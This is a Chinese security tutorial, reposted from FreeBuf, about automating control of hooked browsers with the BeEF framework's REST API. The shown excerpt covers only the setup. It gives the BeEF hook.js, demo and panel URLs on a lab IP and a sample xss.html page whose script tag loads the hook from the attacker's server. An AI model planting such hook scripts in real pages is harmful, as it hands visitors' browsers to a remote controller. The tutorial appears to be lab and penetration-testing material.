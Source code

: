 ```yaml
---
layout: post
title: 利用BeEF REST API自动化控制僵尸主机
categories:
- Pocket
tags:
---
```

原文地址：http://www.freebuf.com/articles/network/137662.html

收藏时间：2017-07-08 09:53:31

<div  >


<h2 nodeIndex="90">一. 前言</h2>
<p nodeIndex="91">关于BeEF，不再多介绍，它的强大毋庸置疑，利用它我们可以做很多事情。最近的一些实验，需要用beef进行批量自动控制，发现网上也没有过多关于这方面内容的介绍，于是学习了一下它的API，顺便练习一下python编程，这里把自己的学习内容分享下。本文涉及的一些内容可能具有一定的攻击性，请遵守国家法律，禁止用于非法用途。</p>
<h2 nodeIndex="92">二. 通过API控制beef</h2>
<p nodeIndex="93">BeEF从0.4.3.3,版本开始，提供了静态API接口，用户可以通过发送HTTP / JSON请求控制Beef。</p>
<p nodeIndex="94">我们可以通过程序，批量自动加载执行某些beef的模块，实现比如自动维持权限，Getshell等功能。</p>
<p nodeIndex="95">在后面的正文里，每一个调用模块的示例中，我都会尝试单独编写代码进行测试，最后，我会将各个部分组合起来，实现一个自动化控制的小demo。本文涉及到的所有代码你都可以在这里找到：<a href="https://github.com/ssooking/AutoBeef/" nodeIndex="385">https://github.com/ssooking/AutoBeef/</a>。进入正题，我们先启动beef。本机IP：192.168.1.133</p>
<pre nodeIndex="96">
<code nodeIndex="386">默认hook js：http:<span nodeIndex="387">//</span><span nodeIndex="388">192.168.1.133:3000/hook.js</span>
默认hook页面： http:<span nodeIndex="389">//</span><span nodeIndex="390">192.168.1.133:3000/demos/basic.html</span>
默认管理界面：  http:<span nodeIndex="391">//</span><span nodeIndex="392">192.168.1.133:3000/ui/panel</span></code>
</pre>


<p nodeIndex="98">当我们启动beef的时候，会自动生成一个静态API key，这个key用于身份认证，我们每次通过API进行控制时，都要添加这个参数值 。需要提到的是，如果你发现后文的API key，session等参数值发生了变化，是因为这篇文章不是一次写完的，测试时因为重新开启beef产生了变化，因此不要纠结，我们应该关注API如何调用。</p>
<p nodeIndex="99">下面，我们可以创建一个简单的hook页面 ，如xss.html</p>
<pre nodeIndex="100">
<code nodeIndex="394"><span nodeIndex="395"><</span><span nodeIndex="396">html</span><span nodeIndex="397">></span>
　　<span nodeIndex="398"><</span><span nodeIndex="399">head</span><span nodeIndex="400">></span>
　　　　<span nodeIndex="401"><</span><span nodeIndex="402">script </span><span nodeIndex="403">src</span><span nodeIndex="404">="http://192.168.1.133:3000/hook.js"</span><span nodeIndex="405">></</span><span nodeIndex="406">script</span><span nodeIndex="407">></span>
　　<span nodeIndex="408"></</span><span nodeIndex="409">head</span><span nodeIndex="410">></span>
<span nodeIndex="411"></</span><span nodeIndex="412">html</span><span nodeIndex="413">></span></code>
</pre>
<p nodeIndex="101">我们也可以访问默认hook页面 <a href="http://192.168.1.133:3000/demos/basic.html" nodeIndex="414">http://192.168.1.133:3000/demos/basic.html</a>，为了测试，这里我使用了一台虚拟机，本机也使一个浏览器被hook。在管理面板可以看到主机已经上线。</p>

